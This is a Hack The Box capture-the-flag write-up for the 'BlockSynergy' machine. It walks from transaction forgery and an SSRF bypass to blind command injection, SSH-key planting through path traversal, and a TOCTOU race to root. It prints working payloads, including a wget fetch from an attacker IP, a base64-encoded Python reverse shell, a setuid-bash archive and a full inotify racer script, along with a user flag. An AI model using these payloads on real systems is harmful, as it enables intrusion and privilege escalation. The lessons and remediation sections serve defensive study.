

# Hack The Box — BlockSynergy


> **Active machine / private write-up.**
> This document is kept in the private repository while the machine is active. It may contain target-specific details, commands, credentials, flags or full exploitation chains.

## Machine Information

| Item | Value |
|---|---|
| Machine | BlockSynergy |
| Platform | Hack The Box |
| OS | Linux |
| Difficulty | Medium |
| Category | Web / SSRF / Command Injection / Path Traversal / TOCTOU |
| Initial Foothold | SSRF bypass via `0.0.0.0` + command injection via URL userinfo |
| Privilege Escalation | Path traversal in dev server + TOCTOU race on restore daemon |
| CVEs Used | None — all custom application flaws |
| Main Techniques | Transaction forgery, SSRF filter bypass, blind command injection with hex encoding, base64 reverse shell, path traversal via `log_file`, inotify-based race condition |

## Summary

BlockSynergy is a blockchain-themed Flask application combining several custom vulnerabilities: unauthenticated transaction forgery, a SSRF with a trivial filter bypass, blind command injection through URL userinfo parsing, path traversal in a development smart-contract server, and a TOCTOU race condition on a root-owned restore daemon. The full chain moves from anonymous web access to root.

## CVEs and Vulnerabilities Used

No CVE was assigned. All vulnerabilities are custom application flaws:

- **Transaction forgery** — `POST /broadcast_transaction` performs no validation on the `sender` field.
- **SSRF filter bypass** — `0.0.0.0` is not blocklisted but resolves to loopback on Linux.
- **Blind command injection** — `ping_node` concatenates URL userinfo into a shell command.
- **Path traversal** — `log_file` in the dev smart-contract server is concatenated without sanitization.
- **TOCTOU race condition** — the restore daemon verifies an archive hash then extracts it, but the file can be swapped between check and use.

## 1. Reconnaissance

Start with a full port scan:

```bash
nmap -T5 --open $TARGET
```

```text
PORT      STATE SERVICE
22/tcp    open  ssh
8080/tcp  open  http-proxy
```

The web application is a **BlockSynergy Dashboard** built with Flask/Werkzeug.

## 2. Obtaining VIP access — Transaction forgery

The dashboard allows creating a wallet and broadcasting blockchain transactions. The `POST /broadcast_transaction` endpoint performs **no validation** on the `sender` field.

### Attempt 1 — Failed

Send a transaction with a custom sender:

```bash
curl -X POST http://$TARGET:8080/broadcast_transaction \
  -H "Content-Type: application/json" \
  -d '{"sender":"Moi","receiver":"<PUB>","amount":10000,"signature":"abc","timestamp":"2026-09-01 00:00:00"}'
```

The transaction is added, but the balance remains 0. The wallet was never loaded into the session.

### Attempt 2 — Success

Create a wallet, forge a transaction from `Blockchain_Reward`, then load the wallet:

```bash
# Create wallet
curl -X POST http://$TARGET:8080/dashboard/wallet \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "action=create&filename=wallet"

# Retrieve public key
PUB=$(curl -s ... | jq -r '.public_key')

# Forge transaction from Blockchain_Reward
curl -X POST http://$TARGET:8080/broadcast_transaction \
  -H "Content-Type: application/json" \
  -d '{"sender":"Blockchain_Reward","receiver":"'$PUB'","amount":10000,"signature":"Blockchain","timestamp":"2026-09-01 00:00:00.000000"}'

# Load wallet
curl -X POST http://$TARGET:8080/dashboard/wallet \
  -F "action=load" -F "file=@wallet.json"
```

Balance is now > 0 and the **VIP Node Management** panel appears.

## 3. SSRF — Bypassing the filter

The VIP panel allows registering nodes (URLs). A filter blocks:

- `127.0.0.1`
- `localhost`
- `[::1]`
- `file://`

### Attempt 1 — Failed

```text
action=register&node=http://127.0.0.1:8080/admin
```

Response: `Invalid URL or localhost!`

### Attempt 2 — Failed

```text
action=register&node=http://localhost:8080/admin
```

Same rejection.

### Attempt 3 — Failed

```text
action=register&node=file:///etc/passwd
```

Same rejection.

### Attempt 4 — Success

```text
action=register&node=http://0.0.0.0:8080/admin/nodes/manage
```

`0.0.0.0` is not in the blocklist, and Linux treats it as loopback. After registering the node, clicking **Test Node** loads the admin panel locally.

## 4. RCE — Blind command injection via `ping_node`

The admin panel has a `ping_node` action that executes `ping <target>` as user `walter`. There is a **differential URL parsing**:

- `urlparse("http://x;<cmd>;a@0.0.0.0:8080/").hostname` returns `0.0.0.0` → SSRF validation passes.
- `ping_node` takes the **userinfo** (the part before `@`: `x;<cmd>;a`) and concatenates it into a shell command.

### Attempt 1 — Blind injection confirmed

```text
node=http://x;id;a@0.0.0.0:8080/
```

The error `ping: x;id;a` confirms command execution, but output is not returned. This is a **blind injection**.

### Attempt 2 — Timing confirmation

```text
node=http://x;sleep 10;a@0.0.0.0:8080/
```

The page takes 10 seconds to load. Commands execute, but output is unreadable.

### Attempt 3 — Failed wget

```text
node=http://x;wget http://10.10.14.106:8000/shell.sh;a@0.0.0.0:8080/
```

Spaces break the command and `/` in the URL breaks URL parsing.

### Corrections

1. **Replace spaces with `${IFS}`**:

   ```text
   node=http://x;wget${IFS}http://10.10.14.106:8000/shell.sh;a@0.0.0.0:8080/
   ```

2. **Encode commands in hex** to avoid `/` characters (which terminate the netloc and break validation):

   ```bash
   echo <command> | xxd -p | tr -d '\n'
   ```

   Then inject:

   ```text
   node=http://x;echo<hex>|xxd${IFS}-r${IFS}-p|sh;a@0.0.0.0:8080/
   ```

### Final payload — Reverse shell via base64/python3

```bash
node=http://x;echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwNiIsOTk5OSkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbInNoIiwiLWkiXSk= | base64 -d | python3;a@0.0.0.0:8080/
```

**Why it works:**

- Base64 contains no `/`, `+`, or `=` → URL parsing is preserved.
- Spaces are replaced by `${IFS}`.
- The pipe `|` is allowed.
- `python3` executes the reverse shell.

Result: shell as **`walter`**.

```bash
$ id
uid=1000(walter) gid=1000(walter) groups=1000(walter)

$ cat /home/walter/user.txt
e0c5a7fb214e2fc4ce5359c73a5e141d
```

## 5. Lateral movement — Path traversal in dev server

From the `walter` shell, an internal service is discovered on `127.0.0.1:5000`: `dev_app.py`, a development server for smart contracts running as **`hank`**.

Reading `contract.py` reveals a debug hook:

```python
if self.debug == "True":
    if hook_val == "log":
        file = self.contract.get("__meta__", {}).get("log_file", "")
        logfile = f"/opt/staging/smart_contracts/logs/{file}"
        with open(logfile, "a") as f:
            f.write(f"[{timestamp}] [{hook_name}] {content}\n")
```

`log_file` is concatenated to a fixed path **without validation** → **path traversal**.

### Attempt 1 — Failed

Write to `/home/hank/.ssh/authorized_keys` using the `backup` hook (JSON output):

```json
{
  "hooks": {"on_mint": "backup"},
  "__meta__": {"backup_filename": "../../../../home/hank/.ssh/authorized_keys"}
}
```

The file is created but contains JSON, not the SSH key. SSH connection fails.

### Attempt 2 — Failed

Use the `log` hook with malformed `log_content`:

```json
"log_content": "ssh-ed25519 AAAA... kali@kali"
```

The code expects a **dictionary** keyed by hook name. With a plain string, `content` is empty → nothing is written.

### Attempt 3 — Success

Create a contract with the correct structure:

```json
{
  "name": "ssh_key",
  "owner": "dev",
  "logic": {"mint": "allow"},
  "storage": {"balances": {}, "total_supply": 0},
  "debug": "True",
  "hooks": {"on_mint": "log"},
  "__meta__": {
    "log_file": "../../../../home/hank/.ssh/authorized_keys",
    "log_content": {"on_mint": "\nssh-ed25519 AAAA... kali@kali\n"}
  }
}
```

Upload via `POST /dashboard` with `action=upload_contract`, load the contract, then trigger `contract_mint`. The `on_mint` hook writes the SSH key.

```bash
ssh -i ~/.ssh/htb_blocksynergy hank@$TARGET
```

## 6. Root — TOCTOU race on the restore daemon

As `hank`, a root-owned daemon `/opt/backup/restore_daemon.sh` is identified. It watches a trigger file (`/opt/staging/restore`). When present, the daemon:

1. Copies a legitimate archive into `/var/restore_work/`
2. Verifies its **SHA256**
3. Opens the file and runs `tar x -C /` (as root)

**Vulnerability:** TOCTOU — between hash verification and extraction, the file can be replaced. `hank` belongs to the `developers` group, which has write access to `/var/restore_work/`.

### Attempt 1 — Failed

Create an archive with a setuid binary but without forcing root ownership:

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
cd /tmp
tar -czf /var/restore_work/.pwn.tar.gz rootbash
```

The extracted binary belongs to `hank` (tar preserves ownership), so the setuid does not grant root.

### Attempt 2 — Failed

Use a simple Bash racer without waiting for `CLOSE_WRITE`. The daemon already verified the legitimate archive hash — the replacement arrives too late.

### Attempt 3 — Success

1. **Force root ownership:**

   ```bash
   cp /bin/bash /tmp/rootbash
   chmod +s /tmp/rootbash
   cd /
   tar -czf /var/restore_work/.pwn2.tar.gz --owner=0 --group=0 tmp/rootbash
   rm -f /tmp/rootbash
   ```

2. **Use an inotify-based Python racer** that watches `CLOSE_WRITE` events and swaps the archive immediately after the daemon writes the legitimate one:

   ```python
   import os, time, shutil, struct, ctypes, ctypes.util

   W = "/var/restore_work"
   TRIG = "/opt/staging/restore"
   SRC = "/var/restore_work/.pwn2.tar.gz"
   MARK = "/tmp/rootbash"
   NAMES = ("_opt_staging.tar.gz", "_opt_blocksynergy.tar.gz")

   libc = ctypes.CDLL(ctypes.util.find_library("c"), use_errno=True)
   fd = libc.inotify_init()
   libc.inotify_add_watch(fd, W.encode(), 0x8 | 0x10 | 0x100 | 0x80)
   os.set_blocking(fd, False)

   end = time.time() + 360
   done = set()
   last_trigger = 0

   while time.time() < end:
       if os.path.exists(MARK):
           print("[+] Won!")
           break
       if time.time() - last_trigger > 2:
           try:
               open(TRIG, "w").close()
           except:
               pass
           last_trigger = time.time()
       try:
           buf = os.read(fd, 8192)
       except BlockingIOError:
           time.sleep(0.002)
           continue
       except:
           continue
       i = 0
       while i + 16 <= len(buf):
           wd, mask, cookie, length = struct.unpack_from("iIII", buf, i)
           i += 16
           name = buf[i:i+length].split(b"\x00", 1)[0].decode(errors="replace")
           i += length
           if not name or name.startswith(".pwn") or name.endswith(".n"):
               continue
           if mask & (0x100 | 0x80) and name in NAMES:
               done.add(name)
           elif mask & 0x8 and name in done:
               target = os.path.join(W, name)
               try:
                   shutil.copyfile(SRC, target + ".n")
                   os.rename(target + ".n", target)
                   print(f"[+] Replaced {name}")
               except Exception as e:
                   print(f"[-] Error: {e}")
               done.discard(name)

   print("[*] Done")
   ```

Once the race is won, `/tmp/rootbash` is extracted with setuid root:

```bash
/tmp/rootbash -p
id   # uid=0(root)
cat /root/root.txt
```

## Attack chain summary



The chain moves from unauthenticated web access through SSRF and command injection to a user shell, then pivots through a development server via path traversal to a second user, and finally exploits a race condition in a root-owned daemon for full compromise.

## Lessons learned

- **Transaction validation is critical.** A blockchain application that does not validate sender identity is equivalent to a bank that accepts unsigned checks.
- **SSRF blocklists must be comprehensive.** Blocking `127.0.0.1` and `localhost` while missing `0.0.0.0` is a classic oversight. Deny-all with an allowlist is safer than deny-list.
- **URL parsing differentials are dangerous.** When different components of an application parse URLs differently (validation vs. command construction), injection surfaces appear.
- **Blind command injection is still exploitable.** Even without output, timing and out-of-band techniques (wget, reverse shells) provide full execution.
- **Path traversal in file-path concatenation** is a persistent anti-pattern. `os.path.join` with user input must be validated against a canonical prefix.
- **TOCTOU races in privileged daemons** are exploitable when unprivileged users can modify files between check and use. Atomic operations or strict access control are required.

## Remediation

- Validate and sign transactions server-side; never trust client-provided sender fields.
- Replace SSRF blocklists with allowlists or use network-level controls.
- Never concatenate user input into shell commands; use parameterized APIs.
- Canonicalize file paths and validate they remain within the intended directory.
- Use `inotify` or equivalent for atomic file swaps in restore daemons, or verify and extract in a single operation.
- Restrict write access to `/var/restore_work/` to root only.
- Remove or disable debug hooks in production deployments.

## Flags

```text
user.txt: e0c5a7fb214e2fc4ce5359c73a5e141d
root.txt: <redacted>
```
